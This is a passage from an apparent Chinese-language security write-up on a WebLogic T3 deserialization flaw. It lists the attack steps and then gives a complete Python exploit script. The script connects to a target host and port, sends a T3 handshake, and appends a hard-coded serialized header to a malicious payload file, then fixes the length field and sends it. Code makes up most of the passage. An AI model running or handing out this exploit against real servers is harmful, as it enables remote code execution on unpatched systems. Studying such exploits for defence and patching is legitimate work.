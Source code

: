 这里我采取第二种方法进行脚本的编写，思路是：
1. 建立socket请求
1. 发送t3请求数据头
1. 读取恶意序列化数据，将其拼接至第一部分序列化数据之后
1. 将前四个字节的长度进行替换
1. 发送恶意数据
脚本如下

```
#!/usr/bin/python
import socket
import os
import sys
import struct

if len(sys.argv) &lt; 3:
    print 'Usage: python %s &lt;host&gt; &lt;port&gt; &lt;/path/to/payload&gt;' % os.path.basename(sys.argv[0])
    sys.exit()

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.settimeout(5)

server_address = (sys.argv[1], int(sys.argv[2]))
print '[+] Connecting to %s port %s' % server_address
sock.connect(server_address)

# Send headers
headers='t3 12.2.1\nAS:255\nHL:19\nMS:10000000\nPU:t3://localhost:7001\nLP:DOMAIN\n\n'
print 'sending "%s"' % headers
sock.sendall(headers)

data = sock.recv(1024)
print &gt;&gt;sys.stderr, 'received "%s"' % data

payloadObj = open(sys.argv[3],'rb').read()

payload = '\x00\x00\x05\xf5\x01\x65\x01\xff\xff\xff\xff\xff\xff\xff\xff\x00\x00\x00\x71\x00\x00\xea\x60\x00\x00\x00\x18\x45\x0b\xfc\xbc\xe1\xa6\x4c\x6e\x64\x7e\xc1\x80\xa4\x05\x7c\x87\x3f\x63\x5c\x2d\x49\x1f\x20\x49\x02\x79\x73\x72\x00\x78\x72\x01\x78\x72\x02\x78\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x01\x00\x70\x70\x70\x70\x70\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x01\x00\x70\x06\xfe\x01\x00\x00'
payload=payload+payloadObj

# adjust header for appropriate message length
payload=struct.pack('&gt;I',len(payload)) + payload[4:]

print '[+] Sending payload...'
sock.send(payload)
data = sock.recv(1024)
print &gt;&gt;sys.stderr, 'received "%s"' % data
```
